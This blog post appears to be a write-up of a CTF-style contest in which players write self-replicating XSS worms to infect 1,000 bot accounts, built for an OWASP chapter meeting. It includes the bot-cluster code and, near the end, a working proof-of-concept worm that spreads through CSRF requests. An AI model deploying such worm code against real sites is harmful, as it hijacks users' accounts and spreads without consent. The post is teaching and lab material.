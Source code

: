 ```yaml
---
layout: post
title: "XSSworm.dev ~ Self-replication contest [write-up]"
date: 2020-12-01 00:00:00 -0000
categories: ['Ethical hacking', 'Tools']
tags: [XSS, worm]
author: vavkamil
---
```


tl;dr: I created "CTF" style challenge for our **[OWASP Czech Chapter Virtual Meeting](https://www.meetup.com/owasp-czech-republic-meetup-group/events/274616231/)**. The goal was to write an XSS worm and score points by infecting 1k virtual users. You can find the source code [here](https://github.com/vavkamil/XSSworm.dev) and read the details in this post.

---

When the whole covid-19 thing started, I was somehow interested in looking at various coronavirus world maps and watching the exponential growth of the pandemic unfold. It reminded me of the (in)famous MySpace; "[Samy worm](https://samy.pl/myspace/tech.html)" by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar). For those of you who never heard about it, it was the first publicly released self-propagating cross-site scripting worm, onto MySpace, in 2005. The worm was able to infect over one million users had run the payload in one day.

Since then, we have seen some other XSS worms, for example, on Yahoo, Twitter or Orkut. But nothing at the scale of The MySpace worm.

In 2008, [@RSnake](https://twitter.com/rsnake?lang=en) published "*[Diminutive XSS Worm Replication Contest](https://web.archive.org/web/20080210014614/http://sla.ckers.org/forum/read.php?2,18790,18790)*" on sla.ckers.org. It was an awesome idea, but there was some [backlash](https://forums.theregister.com/forum/all/2008/01/05/worm_replication_contest/) as well :(

But why am I talking about this? Well, in 2008, I was 16 years old. I knew only the basic English, but I was lucky enough to be mentored by the best hackers in the Czechia at the time. Couple of months after the RSnake's contest, one member of our community took the idea and created an interface where we could test our XSS worms and compete with others. It looked like this:

![](/assets/img/2020/12/skola.png)

There were 200 bot accounts and we (~4 people) scored points by infecting them with our worms and marking them with our color & nick via CSRF. You can still find the pieces of the original web archived [here](https://web.archive.org/web/20080320190901/http://xsscontest.xf.cz/?action=stats&PHPSESSID=e8b6a4ab2a69f128ed44fa933bb7584e) and the XSS worm source [here](https://web.archive.org/web/20080717202916/http://skola.security-portal.cz/[4194]-XSS-CONTEST-WARRIOR_0x13.txt). It may sound weird, but this "contest", writing XSS worms and payloads to steal cookies, is one of my happiest childhood memories :)

So one evening, when I was checking the coronavirus map, I had a big flashback and immediately started coding the remastered version. The things is, I'm not a developer, so it took quite some time. In May 2020, I had a working Proof of Concept, which looked like this:

![](/assets/img/2020/12/challenge-poc.png)

At that point, I realized that it's *scalable* and I might be able to pull it off and write a CTF style contest for our upcoming OWASP Czech Chapter meeting. I did some research and decided to go with a simple Python Flask application and a cluster of puppeteer workers for the bots.

Then the situation with covid got worse, and we had to postpone the OWASP meeting. We had to postpone multiple times and eventually cancel the whole thing because of the lockdown. On the bright side, I had plenty of time for coding and polishing. So how does it work?

![](/assets/img/2020/12/web.png)

It's somehow simple. The user will register with the nickname and team color. They are then presented with a simple interface to send messages to bots. But here is a catch, each user has a limit of 13 messages which could be sent. Based on the swagger documentation, they need to write the XSS worm, which will leverage two CSRFs. One to change the bot's color and the other to self propagate via the bot's unlimited private messages. The point of a limited number of messages is to force the users to design an efficient infection algorithm, which will spread exponentially.

There is a grid of 1k boxes, which helps to visualize the bots. If they are infected, and by whom. Users are scoring points by infecting and reinfecting the bots and marking them with their team color.

![](/assets/img/2020/12/example.png)

The puppeteer cluster is then reading the last received messages of each bot in a random sequence every X minutes. The cluster code looks like this, it's just going through the array in random order, authenticated with cookies:

```
const { Cluster } = require('puppeteer-cluster');

(async () => {
  const cluster = await Cluster.launch({
    concurrency: Cluster.CONCURRENCY_CONTEXT,
    maxConcurrency: 5,
    // puppeteerOptions: { headless: false },
    // puppeteerOptions: { args: ['--no-sandbox'] },
    timeout: 666,
    monitor: true,
  });

  await cluster.task(async ({ page, data }) => {
    const { url, id } = data;
    await page.setCookie({
      'value':id,
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': '31p475~Yr37748-35r0h~7c3rr0C-ID',
      'httpOnly': true
    });
    await page.setCookie({
      'value':'correct-horse-battery-staple',
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': 'secret',
      'httpOnly': true
    });
    await page.goto(url);
    await page.waitFor(666);
    //const screen = await page.screenshot();
    // Store screenshot, do something else
  });

  var array = Array.from({length: 1001}, (_, i) => [i, Math.random()]).sort((a, b) => a[1] - b[1]).map(([n, r]) => n)
  for (var i = 0; i < array.length; i++) {
    //console.log(array[i]);
    var url = "https://xssworm.dev/read-message?id="+array[i];
    cluster.queue({url, id:""+array[i]+""});
  // many more pages
  }

  await cluster.idle();
  await cluster.close();
})();
```

There are some basic rules for users. They should be able to write the self-propagating code in just 13 tries. Once their worm hits exponential growth, they should be able to infect most of the victims.

![](/assets/img/2020/12/rules.png)

After the registration, users are presented with [Swagger documentation](https://editor.swagger.io/?url=https://raw.githubusercontent.com/vavkamil/XSSworm.dev/main/static/swagger.yaml). They were supposed to write a code, which will send two POST requests, one to change to the color of the victim, the other to replicate its code and spread to another victim. The tricky part was *application/x-www-form-urlencoded*, as most of the contestants struggled to get the encoding right, so either the '+' sign was stripped, or the '#' representing hex value of the color was double encoded.

![](/assets/img/2020/12/swagger.png)

Only one player was able to write the functional self-spreading XSS worm in time and eventually won the whole competition. They designed three different algorithms, as they could register again and resend the updated version to 13 victims.

![](/assets/img/2020/12/interface.png)

There is a lot of things to improve in my code. I used a rather strict Content Security Policy. The whole deployment should be in docker. I was even thinking about implementing CSRF tokens and Twitter OAuth. For more experienced users, XSS protection to bypass would be ideal. The one thing that I struggled with the most was how to prevent a race condition and how to protect the number of messages that the user can send :( But anyway, I'm glad that people enjoyed the challenge, even in those hard times.

Here you can check my Proof of Concept of the worm:

```
<script id="xss_worm">

	// XSS worm .dev
	// Self-replication contest
	// Proof of Concept v1.0

	var victims = 1000;
	var team_color = "#550bb1";
	var url = "https://xssworm.dev";
	var infection_code = "<script id=\"xss_worm\">"+self_propagation()+"<\/script>";

	infect_victim(team_color);

	while (true) {
		var victim_id = get_random_victim(victims);
		spread_infection(victim_id,infection_code);
	}

	function get_random_victim(accounts_count) {
		return Math.floor((Math.random() * accounts_count) + 1);
	}

	function infect_victim(color) {
		var xhr = new XMLHttpRequest();
		var params = "color="+color;
		xhr.open("POST", url+"/update", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

	function self_propagation(){
		return document.getElementById("xss_worm").innerHTML;
	}

	function spread_infection(id,infection_code) {
		var xhr = new XMLHttpRequest();
		var params = "id="+id+"&msg="+encodeURIComponent(infection_code);
		xhr.open("POST", url+"/send-message", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

</script>
```

You can check and try [the website](https://xssworm.dev), as I will keep the infrastructure alive for a while, or you can deploy it locally, as the whole thing is open-source. I'm a little bit ashamed of my programming skills, but here you go: [https://github.com/vavkamil/XSSworm.dev](https://github.com/vavkamil/XSSworm.dev)
